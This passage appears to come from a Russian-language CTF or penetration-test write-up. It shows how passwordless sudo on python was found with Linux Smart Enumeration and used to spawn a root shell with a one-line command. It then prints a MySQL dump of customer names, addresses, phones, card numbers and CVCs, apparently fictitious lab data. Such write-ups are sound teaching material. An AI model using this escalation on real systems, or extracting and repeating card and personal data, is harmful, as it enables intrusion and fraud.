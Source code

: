 Скорее всего, именно ее использовал злоумышленник.

Используя Linux Smart Enumeration (https://github.com/diego-treitos/linux-smart-enumeration), было обнаружено, что python может быть запущен с помощью sudo без ввода пароля (вероятно, это было сделано для того, чтобы запускался ранее найденный flask-сервер). С помощью команды ниже мы получили root-доступ (убедились, введя команду id): 
```sudo python 2>&1 -c "from os import system; system('/bin/sh -i 2>&1')"```

Также мы скачали дамп базы mysql, который содержит личные данные посетителей сайта, включая их номера телефонов, адрес проживания и номера банковских карт.

```
+-------------------------------+
| Tables_in_counter_information |
+-------------------------------+
| counter_cost                  |
| counter_customer_information  |
| counter_staff_information     |
+-------------------------------+
3 rows in set (0.00 sec)

mysql> select * from counter_cost;
+------+-----------------------------------------------------+------------+---------------+
| id   | districtDescription                                 | districtID | counter_price |
+------+-----------------------------------------------------+------------+---------------+
|    1 | Северный район (РЭС Север)                          | DPS_north  |          1316 |
|    2 | Восточный район (РЭС Восток)                        | DPS_east   |          1222 |
|    3 | Южный район (РЭС Юг)                                | DPS_south  |          1500 |
|    4 | Западный район (РЭС Запад)                          | PDS_west   |          1100 |
+------+-----------------------------------------------------+------------+---------------+
4 rows in set (0.00 sec)

mysql> select * from counter_customer_information;
+------+----------------------+----------------------+-------------------------------------------------------------------------------------------+------------------------+--------------------+--------------------+------+----------------+
| id   | customerSurname      | customerName         | customerAddress                                                                           | customerContractNumber | customerPhone      | NumberOfCreditCard | CVC  | CreditCardDate |
+------+----------------------+----------------------+-------------------------------------------------------------------------------------------+------------------------+--------------------+--------------------+------+----------------+
|    1 | Скачков              | Лукьян               | 618254, ул. Паперника, дом 120, квартира 167                                              |                 182394 | +7 (948) 994-57-35 | 75647586978664537  |  345 | 09-12-2022     |
|    2 | Высоцкий             | Радован              | 140987, ул. Лучевой 3-й просек, дом 46, квартира 528                                      |                 758635 | +7 (912) 263-17-64 | 44354684657576898  |  746 | 19-10-2021     |
|    3 | Афанасьева           | Людмила              | 347090, ул. Волхонка, дом 142, квартира 943                                               |                  94675 | +7 (982) 890-20-21 | 5546738475036542   |  645 | 28-01-2028     |
|    4 | Высоцкий             | Ульян                | 665670, ул. Кирпичная Горка 2-я, дом 89, квартира 819                                     |                8475643 | +7 (906) 516-53-46 | 1875000964837653   |  657 | 19-02-2029     |
|    5 | Белозёров            | Евграф               | 624269, ул. Новочеремушкинская, дом 158, квартира 765                                     |                 987564 | +7 (986) 754-84-99 | 8745601923971845   |   98 | 11-07-2025     |
|    6 | Шарыпова             | Антонина             | 607954, ул. Черниговский пер, дом 171, квартира 44                                        |                1637452 | +7 (954) 288-51-30 | 9808565043629564   |  123 | 22-06-2022     |
|    7 | Демьянов             | Юрий                 | 687432, ул. Кьтуры пл, дом 185, квартира 26                                               |                 123459 | +7 (906) 155-13-11 | 8905647950000672   |  648  09-02-2022     |
|    8 | Дубровская           | Рената               | 347381, ул. Островитянова, дом 149, квартира 114                                          |                 374625 | +7 (956) 242-61-09 | 8764119853678956   |  715 | 29-10-2022     |
|    9 | Усачёва              | Алевтина             | 308516, ул. Волоколамский Б. проезд, дом 7, квартира 166                                  |                 846725 | +7 (939) 479-92-88 | 7564536475869865   |  998 | 09-08-2030     |
|   10 | Абрамова             | Флора                | 188767, ул. Выборная, дом 157, квартира 242                                               |                 546845 | +7 (907) 169-21-02 | 9087656473829465   |  145 | 20-10-2022     |
|   11 | Литковская           | Майя                 | 368014, ул. Подбельского пер, дом 9, квартира 679                                         |                 735647 | +7 (937) 794-21-31 | 8976432156789074   |  664 | 15-04-2022     |